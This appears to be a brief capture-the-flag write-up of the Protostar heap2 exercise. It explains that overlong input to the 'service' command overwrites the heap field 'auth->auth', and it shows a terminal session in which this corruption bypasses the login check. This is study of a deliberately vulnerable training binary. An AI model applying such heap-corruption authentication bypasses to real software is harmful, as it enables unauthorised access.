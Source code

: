 The program leaves all the bits in `auth->auth` cleared and provide no function to change its value. On the surface, this means we can never be logged in. But with the input `service`, we can overwrite the memory address that corresponds to `auth->auth` to authenticate (as long as the input is long enough). I have not figured out how long the input should be, so I just gave an arbitrarily long one for it is bound to work anyway.
```
user@protostar:/opt/protostar/bin$ ./heap2 
[ auth = (nil), service = (nil) ]
auth solomon
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service aaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbccccccccccccccccdddddddddddddddddddd
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```
And it did! :)

END



